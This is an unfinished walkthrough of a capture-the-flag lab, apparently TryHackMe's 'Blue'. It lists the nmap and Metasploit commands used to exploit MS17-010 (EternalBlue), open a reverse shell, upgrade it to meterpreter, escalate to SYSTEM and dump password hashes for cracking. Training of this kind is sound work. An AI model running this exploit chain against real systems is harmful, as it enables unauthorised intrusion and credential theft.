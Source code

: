 ## Enum: Scanning with nmap


### Task 1
The first request is to scan the machine. To do this we are going to use nmap to perform service version detection with the -sV option. This is going to probe the open ports. The command below will allow you to up your verbosity with -vv. 
```
nmap -sV -vv --script vuln *target*
```

![image](https://github.com/user-attachments/assets/f454e18e-f5d4-464b-9e43-41e31f399eed)

The output shows that:
- MSRPC (Microsoft Remote Procedure Call) is open on port 135
- netbios-ssn is open on port 139
- microsoft-ds is open on port 445

**Question:** How many ports are open with a port number under 1000

**Answer:** 3


**Question:** What is the machine vulnerable to?

**Answer:** ms17-010
There are a few vulnerabilities listed on this machine, but this is the answer THM is looking for. This is the EternalBlue vulnerability (CVE-2017-0143 through CVE-2017-0148) which allows for RCE. This vulnerability extends beyond MSFT Windows to any service that uses the Microsoft-SMBv1 server protocol. 

![image](https://github.com/user-attachments/assets/c48d686f-f003-4a5b-a511-b73145ee04e0)
This vulnerability allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." All those susceptible to this vulnerability are listed in the CVE:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
This vulnerability is rated as Critical by Microsoft, and a patch was published to remedy this back in 2017!
https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/


## Exploit: msfconsole
### Task 2

Run metasploit
```
msfconsole
```
Search for the exploit available to ms17_010
![image](https://github.com/user-attachments/assets/d1c9f9a0-a128-475c-b51c-97ba37a994a7)

**Question:** find the exploitation code

**Answer:** exploit/windows/smb/ms17_010_eternalblue

Select the exploit

```
use 0
```

Show options

```
show options
```

**Question:** What value do you need to set?
**Answer:** RHOSTS

![image](https://github.com/user-attachments/assets/df7a2aa9-9820-4da4-be9d-1d43e354763c)
![image](https://github.com/user-attachments/assets/f9066c2a-c8f5-4035-8f1c-9a4c867bf0bb)

```
set payload windows/x64/shell/reverse_tcp
```
Run the exploit

```
run
```

## Post-exploit: Gain Access
### Task 3

We are now SYSTEM!
![image](https://github.com/user-attachments/assets/c717fb13-762f-4b65-96a1-f126e200c3fc)


Set the system shell to background (ctrl+z)
```
search shell_to_meterpreter
```

```
use 0
```

![image](https://github.com/user-attachments/assets/d60d8397-52c8-4eb3-8ed6-f35d159dbf65)
use the shell_to_meterpreter as seen above

list the sessions
```
sessions -l
```
![image](https://github.com/user-attachments/assets/331948b1-3689-405c-b6c2-8c072a327817)

```
set session 1
```

```
run
```
wait forever for the run to complete, it should take time to process once it reads 'stopping exploit/multi/handler'

![image](https://github.com/user-attachments/assets/063fea0b-8481-4736-a775-84734993deac)

list the sessions again, and select the meterpreter

```
sessions -i 3
```


```
getsystem
```
confirm that you are running as system

Run hashdump cmd to get the non-default user
```
hashdump
```

![image](https://github.com/user-attachments/assets/c385faec-8c9b-4415-8081-94b8a0570c70)

answer: jon

Running john the ripper, crack the hashed password

```

```
![image](https://github.com/user-attachments/assets/47e25664-d720-458b-b3ad-711bb1a338fa)

Flag 1 at system root:

![image](https://github.com/user-attachments/assets/1d4e82db-d442-4998-815e-7311fa47b6d0)


![image](https://github.com/user-attachments/assets/5ffb90d4-957f-40a5-95f8-483c28affffa)

![image](https://github.com/user-attachments/assets/716c6eb3-124d-463b-bbc6-64967bfcd7e5)

![image](https://github.com/user-attachments/assets/520d8364-f9ab-4ee1-9744-b9e849e87986)



...brb

